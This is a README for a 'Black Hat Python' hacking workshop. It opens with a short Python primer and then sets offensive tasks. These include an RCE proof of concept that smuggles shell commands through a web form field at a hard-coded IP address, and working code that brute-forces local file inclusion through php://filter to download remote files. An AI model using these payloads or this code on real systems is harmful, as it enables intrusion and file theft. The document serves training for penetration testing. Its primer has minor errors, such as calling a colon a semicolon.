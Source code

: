 This contains material for Black Hat Python workshop at Disobey 2019.

The idea is to learn quickly prototyping scripts and tools for hacking. Obviously it's possible to do many things with the existing tools like sqlmap, Hydra, wfuzz etc. but sooner or later there is something that requires some custom programming or a custom tool. Due to time and other constraints these assignments and the content is quite basic, nothing fancy pro level stuff here. 



# Preparations

1. Install Python, version 3 or 2.7 should both do fine. If you are running Linux or Mac OS, you almost certainly already have Python
installed. 

2. Get some kind of text editor. Emacs should do fine. You can use pycharm or some other IDE if you want, of course.


# Python ? 

Yes, Python. The friendly programming language. This is a very very short primer to Python, which you can skip if you know Python already.

Python can do pretty much anything from GUI programs to embedded systems, but we leave out some interesting aspects like OOP, functional programming, test automation, 
lambdas and threads here. Go check them out later - Python is very flexible and can support large software systems. It's not just a scripting language.

Python is an interpreted language (no compiler). ```python skribu.py``` uses the interpreter to run the program from a file. Very easy. If you run "python" on the command line, you get an interpreter. This is very handy for trying out something quickly. ```exit()``` brings you back to the command prompt.

Unusually, in Python, the code indentation defines code blocks so be careful with your copy-paste and spaces. But otherwise, everything is pretty straightforward and logical compared to other
mainstream languages.

```
t = "kekkonen" # t is a variable with a value of string "kekkonen".
```


```
# this is a loop that prints out 0,1,2,3,4 
for i in range(0, 5):
  print(i)
```

semicolon is used to separate for/if and such statements from the code blocks.

```map(f, s)``` calls f for each element in s. Pretty much how it works in any functional language.

if/else works pretty much like you would expect.

```
ìf True:
  print("Yea")
else:
  print("Nay")
```

```
>>> "aattonajanottaa".split("j")
['aattona', 'anottaa']
```

"aattonajanottaa" is a string object and ```split``` is a method in string. The result is a list (vector) which you get if you cut it to pieces for each "j" in the string.

The most important Python datastructure we need is probably the "dict" (dictionary), which is basically a key -> value map. Works pretty much like a map in other languages, like so:
```
d = dict() # construct a new dictionary object
d['key'] = "makevaluesgreatagain"
# now d['key'] returns the value if we need it.
```

*pip* is the mechanism for handling dependencies. In a "real" use i would be preferable to use something like *venv* to isolate separate
projects from each other to manage version issues with dependencies and the core language versions. We'll skip that now.

The official Python site has the language reference and API reference for he core: https://docs.python.org/2/contents.html


# Task 1

We have found a web server in our penetration test that seems to be vulnerable and allows remote code execution (RCE). It's tedious and time consuming to
further exploit the server by manually crafting HTTP requests and parsing the responses from the server, so let's write a "shell" with Python that
makes it pleasant to access the server.

(Obviously, if you could get easily a reverse shell from the server this wouldn't be necessary, but it's not always easy. Sometimes it can be pretty 
impossible even though you have RCE.)

* ```pip install requests```
* Take the template code 
* Modify it to make a "shell" where you can interact with the remote server like you would have actual terminal connection to the server

RCE Proof-of-Concept:
```
POST /haveibeenpwned.php HTTP/1.1
Host: 34.243.97.41
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.18.4
content-type: application/x-www-form-urlencoded
Content-Length: 38

site=iiro+*.dat+%26%26+pwd+%26%26+ls
```

We get back something like:

```
<b>Pwnage results for <font color='green'>iiro *.dat && pwd && ls
</font> <br><br><br></b><table><tr><td>iiro@rot.fi</td></tr><br>
<tr><td>/var/www/html</td></tr><br>
<tr><td></td></tr><br>
</table>  </p>    
```


# Task 2

Better "strings". 

It might happen that we have a binary, which has some kind of "secret" embedded in it. The trivial case will be revealed by running ```strings``` and maybe 
looking into it with a disassembler/debugger, but there are other nearly-as-trivial cases. Like XOR encryption over the key.

Create a Python program that can read the binary file and tries to locate and decrypt potential "secrets" out of it.

Something along these lines as pseudocode perhaps:
  * slide an index over the file (say, i)
  * for byte sequence f[i]...f[i+n] check if it looks like a string (alphanumeric characters). At least n characters long. (this is what  the standard strings does)
  * for byte sequence f[i]...f[i+n] check if it looks like a string if XOR is done with a single byte over it. 

This can be done in O(n) time so even large files can be quickly scanned.

Bonus idea:
  * for byte sequence f[i]...f[i+n] check if it looks like a string of XOR is done with any of the previously found strings over it

Another bonus:
  * recognize base64 and other common encodings (usually easy anyway if you print out the strings)

 
(Now it's no longer O(n) in the worst case, but it's likely still O(n) in almost every actual case.)

This code might provide some useful insight into how this might work. ^ is the XOR function in Python.
```
s = "SOMEINTERESTINGSTRING"

for i in range(0,255):
  s2 = ""
  for c in s:
    s2 = s2 + chr(i ^ ord(c))
  print(str(i) + ": " + s2)
```


# Task 3 

Brute force LFI.

Every now and and then one needs to brute force something out of a web server. dirb, dirbuster and gobuster are fine for basic enumeration. wfuzz is great. ffuf is superb.
Burp Intruder is often an excellent choice.

But sometimes you need something custom made so let's make a brute forcer. (This can be easily converted into brute forcing logins or other things aside from LFI). The actual list 
of potentially interesting files depends on the target of course and there might be some limitations on directory traversal and some special encodings that need to be done.

This code might be useful as a starting point for this:
The program actually downloads and writes the remote files to the current directory so careful here.
```
files = set()
with open('files.txt') as f:
    for line in f:
      if (line[0] != "#"):
        files.add(line.rstrip(' ').rstrip('\n'))

print(files)
print("\n-----")

count = 0
for lfi in files:
    print("Still trying.. " + lfi)
    time.sleep(0.05)
    fn = lfi.split("/")[-1] + ".BAR"
    if (not (os.path.isfile(fn))):
      repla = requests.get(args.url + "php://filter/read=convert.base64-encode/resource=" + urllib.quote_plus(lfi))
      if (repla.status_code == 200):
        base64encoded = repla.text.split(args.begin)[1]
        base64encoded = base64encoded.split(args.end)[0]
        print("FILE : " + lfi)
        content=base64.b64decode(base64encoded)
        print(content)
        with open(fn, "w") as f:
          f.write(content)
        print("---------------")
      else:
        print("STATUS : " + str(repla.status_code))
    count = count + 1

```


# Task 4

Remote exploit pwn.

(This is currently on the works, sorry.. )






 